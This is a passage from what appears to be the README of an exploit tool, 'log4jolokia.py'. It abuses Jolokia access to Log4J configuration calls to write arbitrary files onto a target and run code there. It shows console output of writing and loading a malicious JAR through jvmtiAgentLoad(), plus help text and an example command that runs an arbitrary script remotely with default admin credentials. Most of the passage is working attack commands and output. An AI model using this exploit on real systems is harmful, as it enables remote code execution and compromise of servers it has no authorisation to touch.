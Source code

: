 ```
		-- The JAR code will execute everytime the jvmtiAgentLoad() function is successfully called (result == "return code: 0")

If you agree with the above enter "yes" to continue: yes
[.] Reading content from mal_linux.jar
[.] Generating Log4J configuration
[.] Invalid XML characters have been detected in the content
[.] Using a 2 step write techique (XML -> Properties -> File)
[+] Generated Log4J Properties configuration
[+] Embedded Properties configuration in a XML configuration
[.] Using a double setConfigText in order to flush the buffer
[.] Using setConfigText to load the Log4J XML configuration
[+] Successfully called setConfigText()
[+] File "/tmp/mal.properties" should have successfully been written on the target
[.] Using a double setConfigLocationUri in order to flush the buffer and finish writing "/tmp/mal.properties" 
[.] Setting ConfigLocationUri to point to arbitrary location file:/tmp/mal.properties
[+] Successfully set ConfigLocationUri to "file:/tmp/mal.properties" 
[.] Checking that the file "/tmp/mal.jar" was written successfully on the target
[+] File "/tmp/mal.jar" has been successfully written on the target
[+] Successfully called jvmtiAgentLoad()
```

**Note:** As stated in the "WARNING", once you have successfully loaded a JVM TI Agent JAR (return code: 0), redoing the subsequent requests with new/modified JARs (that are valid) will result in the re-execution of only the initaily/first loaded JAR.

#### Execute Scripts:

By using the functionality presented in the "write_file" module, we will write an arbitrary JAR on the target system and then use the "jvmtiAgentLoad([Ljava.lang.String;)" function in order to execute arbitrary Java code.

**Note:** In order for this exploit to work Log4J need to be configured to allow the respective script type (by default no scripts are allowed).

Help - Execute Script Specific Parameters:
```
$ python3 log4jolokia.py exec_script http://a -h

  ***TRUNCATED***

  -sf [SCRIPT_FILE], --script_file [SCRIPT_FILE]
                        Path to local file containing the script to be executed on the target (Use only with mode: exec_script)
  -l [LANGUAGE], --language [LANGUAGE]
                        Language of the script to be executed (E.g. javascript, groovy, beanshell, etc.) (Use only with mode: exec_script)

Example command:
	python3 log4jolokia.py exec_script http://127.0.0.1:8161/console/jolokia/ -sf rce.js -l javascript -u admin -p admin -H 'Origin: http://localhost'
```
